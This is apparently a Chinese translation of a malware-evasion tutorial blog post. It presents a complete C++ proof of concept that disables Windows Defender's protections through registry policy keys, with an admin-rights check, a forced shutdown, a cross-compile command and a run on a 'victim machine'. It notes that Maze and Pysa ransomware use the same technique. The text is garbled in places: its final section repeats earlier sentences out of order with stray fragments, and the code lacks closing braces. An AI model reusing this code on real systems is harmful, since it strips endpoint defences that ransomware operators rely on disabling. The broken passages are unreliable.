









\newpage
\subsection{恶意软件 AV 规避（第 7 部分）：禁用 Windows Defender（简单的 C++ 示例）}

这篇文章是我自我研究野外恶意软件中最常见的技巧之一的结果。

{width="80%"}

### Windows Defender

反恶意软件 Windows Defender（现称 Microsoft Defender Antivirus）保护你的计算机免受外部威胁。

微软开发了这个杀毒软件，用来保护 Windows 10 电脑免受病毒威胁。

这个杀毒软件预装在所有 Windows 10 版本上。

为了避免他们的恶意软件/工具和活动被检测到，攻击者可能会修改或禁用安全工具。

例如 Windows Defender。

威胁会被处理，检测到的威胁会列出在你所在组织的安全报告中以及 Windows 安全应用中。

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
"SOFTWARE\\Policies\\Microsoft\\Windows Defender", 
0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);

```

在 UAC 下，本地管理员组账户有两个访问令牌，一个具有标准用户权限，另一个具有管理员权限。

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, &token)) {
  if (GetTokenInformation(token, TokenElevation, 
  &elev, sizeof(elev), &size)) {
  isElevated = elev.TokenIsElevated;
  }
  }
  if (token) {
  CloseHandle(token);
  token = NULL;
  }
  return isElevated;

```

所有进程（包括 Windows 资源管理器 explorer.exe）都使用标准令牌启动，这会限制进程的权限和特权。

由于 UAC 访问令牌筛选，脚本或可执行文件通常在标准用户令牌下运行，除非它在提升权限模式下「以管理员身份运行」。

那么，禁用 Windows Defender 的完整 PoC 脚本大致如下：

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, 
  &token)) {
  if (GetTokenInformation(token, TokenElevation, 
  &elev, sizeof(elev), &size)) {
  isElevated = elev.TokenIsElevated;
  }
  }
  if (token) {
  CloseHandle(token);
  token = NULL;
  }
  return isElevated;

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
  printf("please, run as admin.\n");
  return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, 
  KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 
  0, REG_OPTION_NON_VOLATILE, 
  KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 
  0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 
  0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 
  0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 
  0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 
  0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\n");
  printf("press any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;

```

### 演示

我们来看看一切的实际运行。

{width="80%"}

首先，检查我们的 defender：

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

{width="80%"}

如你所见，我们有标准的注册表项。

然后，我们来在攻击者的机器上编译我们的脚本：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后在受害机器上运行它：

```powershell
.\hack.exe
```

{width="80%"}

按照我们程序的逻辑，机器会关机。

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

{width="80%"}

{width="80%"}

为了确认效果，通过 Windows Defender 安全中心检查：

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了！

当然，这个技巧并不新鲜，如今威胁行为者可能会篡改安全工具部署和使用的产物。

安全产品可能会加载自己的模块和/或修改进程加载的模块，

攻击者可能会取消挂钩或以其他方式修改这些由工具添加的功能，以避免被检测。

在下一部分中，我将学习并研究一个技巧，其要点在于剥夺杀毒进程的权限，从而使它无法检查文件中的恶意软件。

### 实战示例

我们来尝试通过修改 Windows 注册表来禁用 Windows Defender Antivirus。

首先，重要的是要记住，禁用需要管理员权限。

在活动模式下，Microsoft Defender Antivirus 充当设备的主要杀毒程序。

要禁用这一切，你只需修改注册表项：

但正如我之前所写，这需要管理员权限，为此我们创建一个检查它的函数：

自 Windows Vista 以来，UAC 一直是缓解权限提升相关风险的关键特性。

如果用户想要提升的权限，他可以选择「以管理员身份运行」来执行该进程。

这种主动选择授予该进程全部管理员权限和权利。

作为开发者或黑客，理解你所处的运行模式至关重要。

并检查注册表项：

然后再开机并检查：

以便利数据收集。

这个技巧在野外被 Maze 和 Pysa 勒索软件使用。
